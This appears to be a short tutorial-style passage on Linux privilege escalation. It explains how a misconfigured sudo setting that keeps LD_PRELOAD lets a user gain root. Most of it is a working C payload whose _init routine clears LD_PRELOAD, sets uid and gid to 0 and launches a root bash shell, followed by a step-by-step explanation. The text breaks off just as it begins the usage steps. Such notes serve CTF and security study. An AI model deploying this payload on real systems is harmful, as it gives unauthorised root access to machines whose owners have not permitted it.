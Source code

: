 ```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

```
save file as [x].c so it can be compiled.
This code includes standard io,sys types, and standard libraries.
Then it unsets the library preload which is LD_PRELOAD.
Then set setgid and setuid to zero which is root.
Then the system executes /bin/bash.



![image](https://user-images.githubusercontent.com/96658935/147622984-7193ceee-663b-4649-b16c-65016f201af4.png)


This means we can run a script before any other libraries. When you run sudo -l and see this output do the following:
